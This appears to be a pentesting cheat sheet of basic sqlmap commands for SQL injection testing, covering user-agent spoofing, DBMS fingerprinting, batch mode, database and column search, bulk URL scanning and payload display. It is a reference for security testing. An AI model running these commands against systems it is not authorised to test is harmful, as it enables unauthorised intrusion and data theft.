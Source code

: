 # 02 - Basic Commands

Search Tag(s): #webapp-pentesting #sql-injection #sqlmap

Change User-Agent

```
$ sqlmap -u "<URL>" --user-agent="<user_agent>"

$ sqlmap -u "<URL>" --mobile

$ sqlmap -u "<URL>" --random-agent
```

Crawl the website in depth

```
$ sqlmap -u "<URL>" -f

$ sqlmap -u "<URL>" --dbms=<mysql | mariadb | postgresql | sqlite | oracle>

$ sqlmap -u "<URL>" --os=<linux | windows>

$ sqlmap -u "<URL>" --keep-alive

$ sqlmap -u "<URL>" --threads=<1_to_10>

$ sqlmap -u "<URL>" --flush-session

$ sqlmap -u "<URL>" --ignore-code=<401 | 500>
```

Skip user prompt and accept the default answers.

```
$ sqlmap -u "<URL>" --batch
```

Skip user prompts and specify the default answers.

```
$ sqlmap -u "<URL>" --batch --answers="follow=Y,process=Y,problems=Y,properly=N,already=N,vulnerable=N,extending=N,fuzzy=Y,requests=N"
```

```
$ sqlmap -u "<URL>" --batch --answers="DBMSes=N"
```

```
$ sqlmap -u "<URL>" --search -D <database_name_1>,<database_name_2>,<database_name_n> -T <table_1>,<table_2>,<table_n> -C <column_1>,<column_2>,<column_n>
```

```
$ sqlmap -m urls.txt --batch --answers="redirect=N"
```

```
$ sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt
```

```
$ sqlmap -u "<URL>" -o

$ sqlmap -u "<URL>" --output-dir=/path/to/directory

$ sqlmap -u "<URL>" --drop-set-cookie

$ sqlmap -u "<URL>" --no-cast

$ sqlmap -u "<URL>" --skip-heuristics
```

Display payloads injected.

```
$ sqlmap -u "<URL>" -v 3
```

Interactive prompt

```
$ sqlmap --shell
```

Purge all the data

```
$ sqlmap --purge
```

---
## References

- [[User Agents]]